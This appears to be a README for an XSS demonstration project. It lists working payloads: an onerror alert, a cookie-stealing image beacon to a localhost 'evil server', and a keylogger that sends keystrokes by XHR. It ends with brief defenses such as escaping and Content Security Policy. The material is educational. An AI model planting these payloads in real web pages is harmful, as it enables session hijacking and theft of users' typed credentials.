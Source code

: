 # xss
A test project to demonstrate XSS attack


XSS
  simple html page to demonstrate xss
  script tag gets executed no matter where placed

  xss demo with search query parameter
  cookie stealing
  keypress monitoring


  encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');

  cookie:
  encodeURIComponent('<img src="does-not-exist" onerror="alert(document.cookie)">')


  send cookie to evil server
  encodeURIComponent('<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">')
      
      code in readable format
      var img = document.createElement('img');
      img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
      document.querySelector('body').appendChild(img);

  add a key listener

  encodeURIComponent('<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">')

      key listener code in readable format

      var timeout;
      var buffer = '';
      document.querySelector('body').addEventListener('keypress', function(event) {
        if (event.which !== 0) {
          clearTimeout(timeout);
          buffer += String.fromCharCode(event.which);
          timeout = setTimeout(function() {
            var xhr = new XMLHttpRequest();
            var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
            xhr.open('GET', uri);
            xhr.send();
            buffer = '';
          }, 400);
        }
      });    


beef xss framework - http://beefproject.com/
    The Browser Exploitation Framework. 


  XSS defenses
    1. Never put untrusted data directly in a  ascript, in a HTML comment or in an attribute name
    2. Escape data before putting it in HTML - most of the frameworks do this by default
    3. If you unescape, sanitize the data first 
    4. Content security policy
        Browsers can't tell the difference between scripts downloaded from your origin vs another. It is a single execution context.
        CSP allows us to tell modern browsers which sources they should trust, and for what types of resources

     Content-Security-Policy: script-src 'self' https://brighter.com

